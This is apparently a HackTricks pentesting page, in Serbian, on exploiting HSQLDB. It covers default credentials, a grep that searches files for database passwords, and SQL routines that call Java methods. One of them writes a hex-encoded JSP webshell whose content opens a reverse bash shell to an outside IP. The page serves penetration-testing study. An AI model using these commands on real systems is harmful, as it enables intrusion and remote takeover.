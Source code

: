 # 9001 - Pentesting HSQLDB

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

**HSQLDB (**[**HyperSQL DataBase**](http://hsqldb.org/)**)** je vodeći SQL relacioni sistem baza podataka napisan u Javi. Nudi malu, brzu, višenitnu i transakcionu bazu podataka sa tabelama u memoriji i na disku, podržava ugrađeni i serverski režim.

**Podrazumevani port:** 9001

```
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```

## Informacije

#### Podrazumevane postavke

Imajte na umu da je ovaj servis podrazumevano pokrenut u memoriji ili je vezan za localhost. Ako ste ga pronašli, verovatno ste iskoristili neki drugi servis i želite da povećate privilegije.

Podrazumevane akreditacije obično su `sa` sa praznom lozinkom.

Ako ste iskoristili neki drugi servis, potražite moguće akreditacije koristeći

```
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```

## Info prikupljanje

Povežite se sa instancom baze podataka preuzimanjem HSQLDB-a sa [ovog linka](https://sourceforge.net/projects/hsqldb/files/) i izdvajanjem `hsqldb/lib/hsqldb.jar`. Pokrenite GUI aplikaciju (eww) koristeći `java -jar hsqldb.jar` i povežite se sa instancom koristeći otkrivene/slabije kredencijale.

Obratite pažnju da će URL za povezivanje izgledati nešto poput ovoga za udaljeni sistem: `jdbc:hsqldb:hsql://ip/DBNAME`.

## Trikovi

### Java jezičke rutine

Možemo pozvati statičke metode Java klase iz HSQLDB-a koristeći Java jezičke rutine. Imajte na umu da pozvana klasa mora biti u putanji aplikacije.

JRT-ovi mogu biti `funkcije` ili `procedure`. Funkcije se mogu pozvati putem SQL naredbi ako Java metoda vraća jednu ili više SQL-kompatibilnih primitivnih varijabli. Pozivaju se koristeći `VALUES` naredbu.

Ako Java metoda koju želimo pozvati vraća void, moramo koristiti proceduru koja se poziva sa `CALL` naredbom.

### Čitanje Java sistemskih svojstava

Kreirajte funkciju:

```
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

Izvrši funkciju:

```
VALUES(getsystemproperty('user.name'))
```

Možete pronaći [listu sistemskih svojstava ovde](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

### Upisivanje sadržaja u datoteku

Možete koristiti Java uređaj `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` koji se nalazi u JDK-u (automatski učitan u putanju klase aplikacije) da biste putem prilagođene procedure upisali heksadecimalne stavke na disk. **Obratite pažnju na maksimalnu veličinu od 1024 bajta**.

Kreirajte proceduru:

```
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

Izvršite proceduru:

```
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
